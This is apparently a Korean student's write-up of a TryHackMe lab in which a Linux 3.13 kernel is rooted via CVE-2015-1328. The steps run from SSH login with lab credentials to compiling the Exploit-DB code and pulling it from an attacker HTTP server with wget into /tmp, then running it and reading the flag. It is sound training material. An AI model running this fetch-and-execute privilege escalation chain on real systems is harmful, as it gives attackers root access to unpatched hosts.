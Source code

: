 ## Privilege Escalation: Kernel Exploits
> TryHackMe에 커널 익스플로잇을 이용하여 권한 상승에 관한 실습을 했습니다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.42.60
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **커널 버전**: `Linux 3.13.0-24-generic`
- **실습 일자**: 2025-04-18

---

### 2. 실습 과정

#### 2.1 **SSH 접속**
- 타겟 머신에 SSH로 접근: karen 계정과 주어진 비밀번호로 로그인 하였다.

```bash
ssh karen@10.10.42.60
# Password1 입력 후 로그인
```

![SSH 연결 및 로그인](./screenshots/ssh_connect.png)

---

#### 2.2 **커널 버전 확인**

- 커널 버전 확인: uname -a 명령어로 커널 버전을 확인하고, 3.13.0-24-generic 버전이라는 것을 확인하였다.

```bash
uname -a
```
![uname -a 출력](./screenshots/uname.png)

- 커널 버전이 CVE-2015-1328에 취약하다는 사실을 구글링을 통해 확인하였다.

- Exploit-DB에서 해당 취약점에 대한 37292.c 소스코드를 다운로드하였다.
- 다운로드 링크 :[Exploit-DB - CVE-2015-1328](https://www.exploit-db.com/exploits/37292)

---

#### 2.3 **Kali에서 SSH 서버 시작** 

```bash
systemctl start ssh
```
![SSH 서비스 시작](./screenshots/start_ssh.png)

---
#### 2.4 **Exploit 다운로드 및 전송 (Windows → Kali)**  
- Windows → Kali로 소스 전송: Windows PowerShell의 `scp`를 통해 Kali로 소스 파일을 전송하였다. (실제 IP는 모자이크)

```bash powershell
scp D:/exploit_file/37292.c root@<MyRoot-ip>:/root
```
![SCP 전송](./screenshots/window_scp.png)

---
#### 2.5 **Exploit 정적 컴파일**  
- `gcc 37292.c -o exploit -static` 명령어를 사용하여 정적으로 컴파일 하였다.

```bash
gcc 37292.c -o exploit -static
```
![정적 컴파일](./screenshots/compile.png)

---
#### 2.6 **타겟 머신으로 Exploit 전송**  
- Kali에서 `python3 -m http.server 8000`으로 HTTP 서버를 열고, 타겟 머신에서 `wget`으로 exploit을 /tmp에 다운로드하였다.

```bash
python3 -m http.server 8000
wget http://<kali-ip>:8000/exploit -O /tmp/exploit
```
![wget 전송](./screenshots/http_server_wget.png)

---
#### 2.7 **실행 및 루트 획득** 

- `chmod +x exploit` 후 `./exploit`을 실행하여 루트 권한을 획득하였다. 후에 `find / -name flag1.txt`로 플래그 파일 경로를 찾고, `cat /home/matt/flag1.txt`로 내용 확인하였다.

```bash
chmod +x exploit
./exploit
id
find / -name flag1.txt
cat /home/matt/flag1.txt
```
![익스플로잇 실행 및 플래그 획득](./screenshots/exploit_flag.png)

---
### 3. 최종 결과
- 루트 쉘 획득 성공 (`uid=0(root)`)
- 플래그 위치: `/home/matt/flag1.txt`
- 플래그 내용: `THM-28392872729920`

---

> ✅ 이번 커널 익스플로잇 실습을 통해 단순한 버전 정보 수집(uname -a)만으로도 실제 취약점을 찾아 루트 권한까지 상승시킬 수 있다는 점을 체감할 수 있었습니다. 또한 정적 컴파일 및 원격 전송, 실행까지의 전체 흐름을 직접 다뤄보며 실전 감각을 키울 수 있었습니다. 시스템의 커널 보안 업데이트가 얼마나 중요한지 다시 한 번 느끼게 해주는 실습이었습니다.

